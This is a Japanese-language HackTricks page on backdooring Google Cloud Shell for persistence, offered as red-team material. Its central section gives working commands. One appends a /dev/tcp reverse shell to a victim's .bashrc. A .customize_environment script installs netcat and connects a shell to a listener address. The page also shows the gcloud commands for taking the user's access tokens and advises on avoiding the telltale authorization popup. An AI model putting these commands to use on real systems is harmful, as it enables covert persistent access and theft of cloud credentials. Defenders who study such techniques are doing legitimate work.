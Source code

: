 # GCP - Cloud Shell 永続性

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**にPRを提出してハッキングのコツを共有する [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;githubリポジトリ。

</details>

## Cloud Shell

詳細については、以下をチェックしてください:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 永続的バックドア

[**Google Cloud Shell**](https://cloud.google.com/shell/)は、ブラウザから直接クラウドリソースへのコマンドラインアクセスを提供し、関連するコストはかかりません。

GoogleのCloud Shellには、**ウェブコンソール**から、または**`gcloud cloud-shell ssh`**を実行してアクセスできます。

このコンソールには攻撃者にとって興味深い機能がいくつかあります:

1. **Google Cloudへのアクセス権を持つ任意のGoogleユーザー**は、完全に認証されたCloud Shellインスタンスにアクセスできます（サービスアカウントでも、組織のオーナーであっても可能です）。
2. 当該インスタンスは、活動がない場合でも少なくとも120日間はホームディレクトリを維持します。
3. 組織がそのインスタンスの活動を監視する**能力がありません**。

これは基本的に、攻撃者がユーザーのホームディレクトリにバックドアを設置し、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアが生き残り、攻撃者が実行するたびにシェルを取得することを意味します。以下のようにして:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダには、**`.customize_environment`** という別のファイルがあり、存在する場合、ユーザーが**cloud shell**にアクセスする**毎回実行されます**（前のテクニックのように）。前のバックドアを挿入するか、以下のようなものを挿入して、ユーザーが"頻繁に"cloud shellを使用する限り、永続性を維持します：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
認証を要求する**初めてのアクションが実行される際**には、ユーザーのブラウザに認証ウィンドウがポップアップとして表示されます。このウィンドウはコマンドが実行される前に承認されなければなりません。予期せぬポップアップが表示されると、使用している永続性メソッドが疑われ、潜在的に危険にさらされる可能性があります。
{% endhint %}

これは、攻撃者としてクラウドシェルから `gcloud projects list` を実行した際に、ブラウザのユーザーセッションで表示されるポップアップです：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

しかし、ユーザーがアクティブにクラウドシェルを使用している場合、ポップアップは表示されず、**ユーザーのトークンを収集することができます**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続が確立される方法

基本的に、以下の3つのAPIコールが使用されます：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST]（ローカルで作成した公開鍵を追加します）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST]（インスタンスを起動します）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET]（Google Cloud ShellのIPを教えてくれます）

しかし、さらに詳しい情報は[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)で見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSのハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* **HackTricks**にPRを提出してハッキングのコツを共有してください。[**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* &#x20;githubリポジトリ。

</details>
